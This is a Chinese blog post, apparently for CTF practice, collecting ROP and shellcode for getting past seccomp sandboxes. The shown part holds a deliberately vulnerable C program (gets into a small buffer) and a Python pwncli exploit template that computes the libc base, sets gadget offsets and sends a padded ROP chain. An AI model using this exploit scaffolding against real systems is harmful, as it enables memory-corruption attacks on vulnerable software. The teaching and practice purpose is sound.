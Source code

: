 ```yaml
---
layout: post
title: "seccomp沙盒绕过"
date: 2025-08-01 10:00:00 +0800
categories: [技术]
tags: [Jekyll, Markdown]
excerpt: "开始吧，我的blog"
feature_text: |
  ## Liyck
  "你的情有独钟只能对值得的人持有"
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```




# seccomp沙盒绕过 (rop与shellcode集合)

## 前言

### 起因

在每次遇到沙盒时都要重新写rop或者shellcode，这非常不健康，所以我写了这篇文章，尽可能的让这里的代码能拿来就能用。

在正篇里将直接用rop或shellcode中使用的函数进行命名，这样可以快速并清晰的找到要用的代码。

**注意: open+read+write为模版，之后相对应的代码可以直接进行替换，比如pread64可以直接将read进行替换（活字印刷术）。**

以下为例题程序

> ```c
> # rop对应程序
> int __fastcall main(int argc, const char **argv, const char **envp)
> {
> char v4[16]; // [rsp+0h] [rbp-10h] BYREF
> 
> printf("%lp\n", &printf, envp);
> gets(v4);
> return 0;
> }
> # python3脚本
> from pwncli import *
> context(arch='amd64',os='linux',log_level='debug')
> p   = lambda s,t: print(f"\033[0;31;43m{s.ljust(15, ' ') + '------------------------->' + hex(t)}\033[0m")
> 
> sh = process("./rop")
> libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
> 
> libc.address = eval(sh.recvline()) - libc.sym["printf"]
> 
> # ---------需要更改
> pop_rdi = libc.address + 0x000000000002a3e5
> pop_rsi = libc.address + 0x0000000000163f88
> pop_rdx_r12 = libc.address + 0x000000000011f2e7
> pop_rcx = libc.address + 0x000000000003d1ee
> 
> rop = b"a"*0x18 + [rop程序]  # ------
> sh.sendline(rop)
> 
> sh.interactive()
> ```
